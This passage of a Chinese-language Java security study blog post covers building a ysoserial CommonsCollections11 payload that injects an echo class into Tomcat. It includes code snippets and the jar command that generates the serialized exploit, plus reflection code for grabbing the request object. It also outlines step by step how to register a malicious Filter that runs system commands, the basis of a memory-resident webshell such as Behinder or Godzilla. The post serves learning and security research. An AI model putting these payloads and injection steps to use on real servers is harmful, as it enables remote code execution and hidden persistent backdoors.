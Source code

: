 ```java
    });

    // required to make TemplatesImpl happy
    Reflections.setFieldValue(templates, "_name", "Pwnr");
    Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
    return templates;
}
```

我们根据需求增加了接收对应参数的createsTemplatesImpl（接收class，直接转为字节数组并放入TemplatesImpl的_bytescodes字段中）

修改完Gadgets我们还要修改对应的payload，在调用Gadgets的地方修改为

```java
final Object templates = Gadgets.createTemplatesImpl(null, TomcatEchoInject.class);
```

我们这里直接将command忽略了，还需要再把GeneratePayload修改一下

```java
if(args.length < 1){
	printUsage();
	System.exit(USAGE_CODE);
}
```

```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections11ForTomcatEchoInject > ./test.ser
```

用这个命令生成的反序列化内容攻击之后还不能上马，只是可以获得request和response对象

```java
java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
f.setAccessible(true);
ThreadLocal t = (ThreadLocal) f.get(null);
// 不为空则意味着第一次反序列化的准备工作已成功
ServletRequest servletRequest = (ServletRequest) t.get()
```

然后就是动态注入Filter，常规的八股是这样的：

1. 通过反射，从request对象中获取Tomcat中控制Web应用的Context对象（StandardContext对象）
2. 利用获取的StandardContext对象获取上下文中的filterConfigs对象
3. 注册一个Filter对象并重写其doFilter方法，在其中执行系统命令并通过response返回
4. 创建FilterDef对象并利用刚创建的Filter对象完成初始化，并新建一个FilterMap对象，为创建的FilterDef对象添加URL映射
5. 利用创建的FilterConfig对象，并使用刚创建的FilterDef对象初始化，最后加入FilterConfigs中，等待filterChain.doFilter调用

这里差不多，但是三梦师傅用了一个比较曲折的方法（不过也是反射 通过修改state值来添加filter），这块更多的就不详细说了，在[上一篇笔记](https://amiaaaz.github.io/2022/05/30/java-study-notes-05/#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96)里以cc11为例详细写了如何接入冰蝎和哥斯拉

----

{{% spoiler "以下是本文中涉及到的 和我学习时看过的所有文章的链接🔗 每日感谢互联网的丰富资源（" %}}

[Linux 系统文件描述符继承带来的危害](http://www.hackdig.com/?01/hack-146.htm)  |  [PHP端口复用的利用](http://www.phpweblog.net/GaRY/archive/2011/10/09/PHP_Port_Reuse_With_Apache_FD.html) ([code](https://gist.github.com/wofeiwo/66d7e227caa66e448419))
